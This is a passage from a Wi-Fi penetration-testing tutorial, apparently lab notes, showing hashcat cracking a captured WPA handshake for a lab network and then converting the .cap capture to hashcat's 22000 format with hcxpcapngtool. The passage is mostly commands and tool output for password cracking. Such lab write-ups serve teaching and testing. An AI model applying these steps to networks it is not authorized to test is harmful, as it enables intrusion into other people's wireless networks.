 ```bash

Dictionary cache built:
* Filename..: /usr/share/john/password.lst
* Passwords.: 3559
* Bytes.....: 26326
* Keyspace..: 3559
* Runtime...: 0 secs

Approaching final keyspace - workload adjusted.           

18a6f760c1a6:64200cd2c98e:wifu:12345678                   
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 2500 (WPA-EAPOL-PBKDF2)
Hash.Target......: wifu (AP:18:a6:f7:60:c1:a6 STA:64:20:0c:d2:c9:8e)
Time.Started.....: Sun Jul 21 01:08:33 2024 (0 secs)
Time.Estimated...: Sun Jul 21 01:08:33 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/john/password.lst)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    10097 H/s (3.66ms) @ Accel:512 Loops:256 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 3559/3559 (100.00%)
Rejected.........: 2920/3559 (82.05%)
Restore.Point....: 0/3559 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: #!comment: -> newcourt
Hardware.Mon.#1..: Util: 33%

Started: Sun Jul 21 01:08:32 2024
Stopped: Sun Jul 21 01:08:35 2024
```
{% endcode %}

The reason that we can not use cap2hccapx with the 22000 hash mode is that when we used **cap2hccapx.bin** to create our **output.hccapx** file, it creates a binary format file. This binary format does not work with the new 22000 hash mode.

To use the 22000 mode we need to convert our **wifi-01.cap** file to the correct format. There are two ways to do this. The first method is to take our file and upload it to **https://hashcat.net/cat2hashcat**.

The second method is to use the application **hcxtools**.&#x20;

Using Hcxpcapngtool to convert the file:

{% code overflow="wrap" %}
```bash
kali@kali:~$ hcxpcapngtool -o hash.hc22000  wifu-01.cap                                   
hcxpcapngtool 6.2.7 reading from wifu-01.cap...

summary capture file
--------------------
file name................................: wifu-01.cap
version (pcap/cap).......................: 2.4 (very basic format without any additional information)
timestamp minimum (GMT)..................: 20.07.2024 23:30:17
timestamp maximum (GMT)..................: 20.07.2024 23:30:48
used capture interfaces..................: 1
link layer header type...................: DLT_IEEE802_11 (105) very basic format without any additional information about the quality
endianness (capture system)...............: little endian
packets inside...........................: 385
```